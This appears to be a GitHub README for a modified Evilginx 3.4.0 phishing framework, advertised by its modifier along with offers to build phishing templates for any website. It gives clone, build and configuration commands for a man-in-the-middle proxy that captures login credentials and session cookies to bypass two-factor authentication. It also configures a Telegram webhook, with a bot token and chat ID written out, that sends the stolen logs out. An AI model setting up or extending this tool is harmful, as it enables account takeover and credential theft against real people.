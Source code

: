 <p align="center">
  <img alt="Evilginx2 Logo" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-logo-512.png" height="160" />
  <p align="center">
    <img alt="Evilginx2 Title" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-title-black-512.png" height="60" />
  </p>
</p>

# Evilginx 3.4.0 - Modified by @HosterMSG
This modified version can send logs to your telegram group chat.
Inside this modified version i have added free Ionos mail phishlet as proof of high quality product i have nothing to hide.
Incase u want more phishlets let me know we can do any website u want without any upfront payments.
https://t.me/HosterMSG

**Evilginx** is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.


This version Google / Gsuite Cookie Interception Template/Phishlet In Action.
https://vimeo.com/931409763

Alternative video url:
https://www.flexclip.com/editor/app?id=9e89b4e3509603d00d53064b8058bcd1


How to install ?

On Ubuntu:

1. git clone https://github.com/EvilHoster/evilginx-3.4.0-telegram-modification
2. cd evilginx-3.4.0-telegram-modification
3. cd build
4. chmod +rwx evilginx
5. ./evilginx -p ../phishlets/

Setup your configuration.

1. config domain something.com
2. cofig ipv4 external serverip
3. config ipv4 bind serverip
4. config unauth_url https://bots.here.redirected.com/
5. config autocert off/on

[ if ON free certificates is used, it can rate-limit your domain if u ask too much. ]
[ If OFF 
- Feature: Added support to load custom TLS certificates from a public certificate file and a private key file stored in `~/.evilginx/crt/sites/<hostname>/`. Will load `fullchain.pem` and `privkey.pem` pair or a combination of a `.pem`/`.crt` (public certificate) and a `.key` (private key) file. Make sure to run without `-developer` flag and disable autocert retrieval with `config autocert off`.
}


6.config webhook_telegram 7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y/-15604540645

7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y is a Token from Bot Father.
-15604540645 is a Chat ID inside your group.

Add to your Telegram group https://t.me/raw_data_bot and your Group Chat ID will be displayed.







## Help

In case you want to learn how to install and use **Evilginx**, please refer to online documentation available at:

https://help.evilginx.com


This tool is a successor to [Evilginx](https://github.com/kgretzky/evilginx), released in 2017, but i did modification in 2024.04.02 which used a custom version of nginx HTTP server to provide man-in-the-middle functionality to act as a proxy between a browser and phished website.
Present version is fully written in GO as a standalone application, which implements its own HTTP and DNS server, making it extremely easy to set up and use.
